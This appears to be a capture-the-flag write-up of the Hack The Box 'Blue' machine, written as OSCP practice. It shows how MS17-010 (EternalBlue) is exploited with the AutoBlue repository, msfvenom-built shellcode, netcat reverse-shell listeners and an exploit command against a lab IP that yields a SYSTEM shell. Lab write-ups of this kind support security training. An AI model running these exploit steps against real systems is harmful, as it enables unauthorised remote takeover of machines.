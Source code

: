 ```yaml
---
title: "Hack The Box - Blue"
date: 2020-01-08
tags: [oscp, htb, windows, eternalblue]
collection: oscp-prep
published: true
layout: single
headline: "Exploiting Eternal Blue"
picture: /assets/htb-blue/machine_info.png
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Clone the AutoBlue repository](#clone-the-autoblue-repository)
  - [Build shellcode](#build-shellcode)
  - [Setup listeners](#setup-listeners)
  - [Run the exploit](#run-the-exploit)
  - [Loot!](#loot)

---

## Machine Info

![](/assets/htb-blue/machine_info.png)

## Enumeration

Initial `nmap` scans using `autorecon` show a basic layout of SMB/RPC, with the SMB service returning our target OS as Windows 7 Pro.

```
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.049s latency).
Scanned at 2020-01-08 10:21:05 EST for 155s
Not shown: 65526 closed ports
Reason: 65526 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The great thing about `autorecon` is that it will do deeper `nmap` scans for the ports it does find. When it ran a SMB vuln check on port 445, it found the following:

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Looks like the machine is vulnerable to EternalBlue (MS17-010). While this attack vector would be cake with Metasploit, I'm going to go the non-MSF route, since I'm training for the OSCP exam.

---

## Initial Shell

### Clone the AutoBlue repository

Since we won't be using MSF for the easy win, we'll need to use some other exploits to more manually exploit the machine. The [AutoBlue repository](https://github.com/3ndG4me/AutoBlue-MS17-010) is perfect for this. Yes, it still has pre-built exploits, and automates the building of the shellcode for you. But it's still a much more manual process then Metasploit, where you literally just point and click.

To grab the repo, we can use the following command sequence. This will change our directory to `/opt`, clone the repo to `/opt/autoblue`, and navigate to the new directory.

```shell
cd /opt
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git autoblue
cd autoblue
```

Now that we have the tools we need, we can start assembling some shellcode.

### Build shellcode

Part of what makes `AutoBlue` so great is that it helps you to pre-build the shellcode with a built-in script.

From the `/opt/autoblue` directory, we need to `cd` to the `shellcode` directory, and run `./shell_prep.sh`. From there, simply enter the information requested. The script will feed the variables into `msfvenom` to generate the shellcode files. It will also merge them into a single file, which gives us a single bullet, that will handle both x86 and x64 targets.

![](/assets/htb-blue/shellcode_script.png)

You'll note that I decided to go with a stageless, non-meterpreter payload. This way I can simply run dual `nc` listeners to capture the returned shell later.

### Setup listeners

While `AutoBlue` does contain a script to setup and launch MSF listeners for you (via the `exploit/multi/handler` module), my experience with this script has been pretty poor. Since I'm running stageless and non-meterpreter, simple `nc` listeners will capture the shell just fine. Remember that since the x86 and x64 shellcode was merged, and targeted at different ports, we need to setup listeners on both ports 7500 and 7600.

We can run `nc -lvnp 7500` and `nc -lvnp 7600` to setup the listeners.

![](/assets/htb-blue/nc_listeners_norun.png)

### Run the exploit

Now that we have all the parts needed, we can run the actual exploit.

From the `/opt/autoblue` directory, we can run the `eternalblue_exploit7.py` script. The help text shows that we need to specify the target IP and shellcode file.

![](/assets/htb-blue/exploit_help.png)

We can run the command `python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin` to trigger the exploit.

![](/assets/htb-blue/eternalblue_run.png)

Taking a look at the `nc` listeners, we get a shell back on port 7600 (via the x64 shellcode)

![](/assets/htb-blue/nc_listeners.png)

Running `whoami` reveals that we're already running as `nt authority\system`, so privlege escalation won't be needed.

![](/assets/htb-blue/whoami.png)

### Loot!

All that's left is to grab the flags on the system.

We know `root.txt` is in `C:\Users\Administrator\Desktop` like normal, so we can easily grab that.

![](/assets/htb-blue/root_proof.png)

However, since we came in as `nt authority\system`, we haven't had to touch any user accounts.

If we run `dir` on `C:\Users`, we can see the name of the user we're looking for is `haris`. Sure enough, the `user.txt` flag is in `C:\Users\haris\Desktop`.

![](/assets/htb-blue/user_dir.png)

![](/assets/htb-blue/user_proof.png)